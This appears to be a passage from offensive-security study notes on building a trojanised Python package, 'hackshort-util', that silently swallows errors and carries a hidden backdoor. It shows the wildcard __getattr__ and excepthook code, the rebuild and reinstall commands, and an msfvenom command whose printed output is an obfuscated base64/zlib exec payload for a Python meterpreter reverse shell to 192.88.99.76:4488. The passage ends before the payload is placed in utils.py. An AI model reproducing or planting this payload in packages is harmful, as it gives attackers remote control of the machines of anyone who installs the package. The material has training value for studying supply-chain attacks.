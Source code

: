 - standardFunction will get executed by any function call to submodule
- __getattr__ will get called when function name doesn't exist
- return standardFunction: wildcard

Uninstalling, Rebuilding, and Reinstalling hackshort-util Package
```
kali@kali:~/hackshort-util$ pip uninstall hackshort-util
...

kali@kali:~/hackshort-util$ python3 ./setup.py sdist
...

kali@kali:~/hackshort-util$ pip install ./dist/hackshort_util-1.1.4.tar.gz
...
```

Test newly created package
```
kali@kali:~$ python3                 
Python 3.11.2 [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from hackshort_util import utils
>>> utils.run()
>>> 1/0
```

Running any function doesn't throw error

### Adding Payload 
- Add #meterpreter payload to package
- meterpreter can catch many shells if needed

Generating Python Meterpreter Payload Using #msfvenom 

```hlt:1
kali@kali:~$ msfvenom -f raw -p python/meterpreter/reverse_tcp LHOST=192.88.99.76 LPORT=4488
[-] No platform was selected, choosing Msf::Module::Platform::Python from the payload
[-] No arch selected, selecting arch: python from the payload
No encoder specified, outputting raw payload
Payload size: 436 bytes
exec(__import__('zlib').decompress(__import__('base64').b64decode(__import__('codecs').getencoder('utf-8')('eNo9UE1LxDAQPTe/IrckGMPuUrvtYgURDyIiuHsTWdp01NI0KZmsVsX/7oYsXmZ4b968+ejHyflA0ekBgvw2fSvbBqHIJQZ/0EGGfgTy6jydaW+pb+wb8OVCbEgW/NcxZlinZpUSX8kT3j7e3O+3u6fb6wcRdUo7a0EHztmyWqmyVFWl1gWTeV6WIkpaD81AMpg1TCF6x+EKDcDELwQxddpJHezU6IGzqzsmUXnQHzwX4nnxQrr6hI0gn++9AWrA8k5cmqNdd/ZfPU+0IDCD5vFs1YF24+QBkacPqLbII9lBVMofhmyDv4L8AerjXyE=')[0])))
```

Modifying utils.py File to Add the Generated Payload
```hlt:19

kali@kali:~/hackshort-util$ cat -n hackshort_util/utils.py
01  import time
02  import sys
03
04  def standardFunction():
05          pass
06
07  def __getattr__(name):
08          pass
09          return standardFunction
10
11  def catch_exception(exc_type, exc_value, tb):
12      while True:
13          time.sleep(1000)
14
15  sys.excepthook = catch_exception
16
```